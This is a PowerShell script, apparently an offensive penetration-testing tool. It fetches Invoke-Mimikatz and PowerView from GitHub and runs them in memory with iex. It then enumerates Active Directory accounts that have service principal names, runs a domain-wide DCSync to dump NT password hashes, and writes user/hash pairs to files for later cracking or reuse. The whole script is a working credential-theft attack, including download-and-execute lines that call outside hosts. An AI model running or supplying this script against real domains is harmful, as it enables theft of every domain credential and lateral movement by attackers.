 # Author: LRVT - https://github.com/l4rm4nd/

# variables
$DATE = $(get-date -f yyyyMMddThhmm)
$PATH = "C:\temp\" + $DATE + "_" + "DCSYNC" + "\"
$EXT = ".txt"
$LOG = $PATH + $DATE + "_" + "DCSync_NTLM_full" + $EXT
$SPNLOG = $PATH + $DATE + "_" + "spnuser_fulldetails" + $EXT
$SPNUSERS = $PATH + $DATE + "_" + "spnuser_samaccountname" + $EXT
$SPNHASHES = $PATH + $DATE + "_" + "DCSYNC_NTLM_SPN_full" + $EXT
$HASHES = $PATH + $DATE + "_" + "DCSync_NTLM_Hashes" + $EXT
$USERS = $PATH + $DATE + "_" + "DCSync_NTLM_Users" + $EXT
$IMPORTFILE = $PATH + $DATE + "_" + "DCSync_NTLM_UserHash_Import" + $EXT

# download mimikatz into memory
Write-Host "[INFO] Downloading Mimikatz into Memory" -ForegroundColor Gray
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/nishang/master/Gather/Invoke-Mimikatz.ps1')

# download poweview into memory
Write-Host "[INFO] Downloading PowerView into Memory" -ForegroundColor Gray
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/PowerSploit/dev/Recon/PowerView.ps1')

# print out domain context
$domain = get-netdomain | Select-Object -property Name | foreach { $_.Name}
Write-Host "[INFO] DCSync will be executed for the domain: $domain" -ForegroundColor Red

$confirmation = Read-Host "Is the domain correct to execute DCSync on? (y/n)"
if ($confirmation -eq 'y') {

    # create directory for storage
    Write-Host ""
    Write-Host "[INFO] Creating new directory at $PATH" -ForegroundColor Gray
    New-Item -ItemType Directory -Force -Path $PATH | Out-Null

    # enumerate user accounts with service principal name (SPN)
    Write-Host "[INFO] Enumerating user accounts with set SPN" -ForegroundColor Gray
    Get-DomainUser -SPN > $SPNLOG
    $loop = Get-DomainUser -SPN | Select-Object -property samaccountname | foreach { $_.samaccountname }
    $loop > $SPNUSERS

    # execute DCSync over the whole domain
    Write-Host "[!] Exporting NT-Hashes via DCSync" -ForegroundColor Yellow
    $command = '"log ' + $LOG + '" "lsadump::dcsync /domain:'+ $DOMAIN +' /all /csv"'
    Invoke-Mimikatz -Command $command

    # loop over DCSync log file and filter for SPN user accounts
    Write-Host "[!] Extracting SPN users from DCSync logfile" -ForegroundColor Yellow
    foreach ($spn in $loop) {
    get-content $LOG -ReadCount 1000 |
        foreach { $_ -match $spn } >> $SPNHASHES
    }

    # GET NT-HASHES ONLY
    Write-Host "[~] Extracting NT-Hashes from logfile" -ForegroundColor Yellow
    (Get-Content -LiteralPath $SPNHASHES) -notmatch '\$' | ForEach-Object {$_.Split("`t")[2]} > $HASHES

    # GET USERS ONLY
    Write-Host "[~] Extracting users from logfile" -ForegroundColor Yellow
    (Get-Content -LiteralPath $SPNHASHES) -notmatch '\$' | ForEach-Object {$_.Split("`t")[1]} > $USERS

    # CONCAT USER AND NT-HASH INTO OUTFILE
    Write-Host "[~] Create user/hash merge file" -ForegroundColor Yellow
    $File1 = Get-Content $USERS
    $File2 = Get-Content $HASHES
    for($i = 0; $i -lt $File1.Count; $i++)
    {
        ('{0},{1}' -f $File1[$i],$File2[$i]) |Add-Content $IMPORTFILE
    }

}else{
    Write-Host "[!] Script aborted due to wrong domain. Please hardcode the domain in the PS1 script (line 21)." -ForegroundColor Red
}
